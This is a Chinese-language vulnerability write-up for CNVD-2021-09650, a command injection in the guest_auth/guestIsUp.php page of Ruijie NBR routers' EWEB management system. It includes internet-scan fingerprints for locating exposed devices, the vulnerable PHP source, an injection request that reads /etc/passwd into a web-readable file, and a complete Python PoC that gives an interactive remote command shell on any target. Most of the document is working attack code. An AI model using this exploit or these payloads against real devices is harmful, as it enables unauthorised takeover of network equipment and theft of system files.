

# 锐捷 NBR路由器 远程命令执行漏洞 CNVD-2021-09650

## 漏洞描述

锐捷NBR路由器 EWEB网管系统部分接口存在命令注入，导致远程命令执行获取权限

## 漏洞影响

```
锐捷NBR路由器 EWEB网管系统
```

## 网络测绘

```
title="锐捷网络-EWEB网管系统"
icon_hash="-692947551"
```

## 漏洞复现


出现漏洞的文件在 **/guest_auth/guestIsUp.php**

```php
<?php
    //查询用户是否上线了
    $userip = @$_POST['ip'];
    $usermac = @$_POST['mac'];
    
    if (!$userip || !$usermac) {
        exit;
    }
    /* 判断该用户是否已经放行 */
    $cmd = '/sbin/app_auth_hook.elf -f ' . $userip;
    $res = exec($cmd, $out, $status);
    /* 如果已经上线成功 */
    if (strstr($out[0], "status:1")) {
        echo 'true';
    }
?>
```

这里看到通过命令拼接的方式构造命令执行，

```shell
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后访问页面 **/guest_auth/test.txt** 就可以看到命令执行的结果


## 漏洞POC

```python
import requests
import sys
import random
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷网络-EWEB网管系统                                      \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| whoami > test_test.txt"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 目标{}存在漏洞, 执行命令 whoami \033[0m".format(target_url))
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 响应为： {} \033[0m".format(response.text))
            while True:
                cmd = input("\033[35mCmd >>> \033[0m")
                if cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, cmd)
        else:
            print("\033[31m[x] 目标不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, cmd):
    vuln_url = target_url + "/guest_auth/guestIsUp.php"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
    }
    data = "mac=1&ip=127.0.0.1| {} > test_test.txt".format(cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data,verify=False, timeout=5)
        if response.status_code == 200:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.get(url=target_url + "/guest_auth/test_test.txt", headers=headers, data=data,verify=False, timeout=5)
            print("\033[32m[o] 响应为： \n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```




